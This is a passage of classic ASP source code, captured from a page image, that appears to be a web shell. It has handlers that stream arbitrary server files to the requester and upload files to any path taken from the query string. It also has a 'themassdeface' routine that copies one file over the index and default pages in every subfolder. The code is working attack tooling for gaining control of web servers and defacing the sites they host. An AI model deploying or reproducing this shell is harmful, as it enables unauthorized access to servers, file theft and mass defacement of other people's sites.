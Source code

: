         Response.Charset = "UTF-8"
        Response.ContentType = strFileType
        Set Stream = Server.CreateObject("ADODB.Stream")
        Stream.Open
        Stream.type = 1
        Stream.LoadFromFile strFileName
        Response.BinaryWrite Stream.Read
        Response.Flush
        Stream.Close
        Set Stream = Nothing
    Case "upload"
        If Request.QueryString("processupload") &lt;&gt; "yes" Then
            Response.Write "&lt;FORM METHOD=""POST"" ENCTYPE=""multipart/form-data"" ACTION=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=upload&processupload=yes&path=" & Request.QueryString("path") & """&gt;"
            Response.Write "&lt;TABLE BORDER=0&gt;"
            Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face=""arial"" size=""2""&gt;&lt;b&gt;Select a file to upload:&lt;/b&gt;&lt;br&gt;&lt;INPUT TYPE=FILE SIZE=50 NAME=""FILE1""&gt;&lt;/td&gt;&lt;/tr&gt;"
            Response.Write "&lt;tr&gt;&lt;td align=""center""&gt;&lt;font face=""arial"" size=""2""&gt;&lt;INPUT TYPE=SUBMIT VALUE=""Upload!""&gt;&lt;/td&gt;&lt;/tr&gt;"
            Response.Write "&lt;/TABLE&gt;"
        Else
            Set Uploader = New FileUploader
            Uploader.Upload()
            If Uploader.Files.Count = 0 Then
                Response.Write "File(s) not uploaded."
            Else
                For Each File In Uploader.Files.Items
                    File.SaveToDisk Replace(Trim(Request.QueryString("path")),"|","\")
                    Response.Write "File Uploaded: " & File.FileName & "&lt;br&gt;"
                    Response.Write "Size: " & File.FileSize & " bytes&lt;br&gt;"
                    Response.Write "Type: " & File.ContentType & "&lt;br&gt;&lt;br&gt;"
                    Response.Write "&lt;SCRIPT LANGUAGE=""JavaScript""&gt;self.opener.document.location.reload();&lt;/SCRIPT&gt;"
                Next
            End If
        End If
    Case "mass"
        checa = checking(cprthtml,keydec)
        Call hdr()
        Response.Write copyright & onlinehelp
        Sub themassdeface(caminhodomass,metodo,ObjFSO,MeuArquivo)
            On Error Resume Next
            Set MonRep = ObjFSO.GetFolder(caminhodomass)
            Set ColFolders = MonRep.SubFolders
            for each folderItem in ColFolders
                destino1 = folderItem.path & "\index.htm"
                destino2 = folderItem.path & "\index.html"
                destino3 = folderItem.path & "\index.asp"
                destino4 = folderItem.path & "\index.cfm"
                destino5 = folderItem.path & "\index.php"
                destino6 = folderItem.path & "\default.htm"
                destino7 = folderItem.path & "\default.html"
                destino8 = folderItem.path & "\default.asp"
                destino9 = folderItem.path & "\default.cfm"
                destino10 = folderItem.path & "\default.php"
                MeuArquivo.Copy(destino1)
                MeuArquivo.Copy(destino2)
                MeuArquivo.Copy(destino3)
                MeuArquivo.Copy(destino4)
                MeuArquivo.Copy(destino5)
                MeuArquivo.Copy(destino6)
                MeuArquivo.Copy(destino7)
                MeuArquivo.Copy(destino8)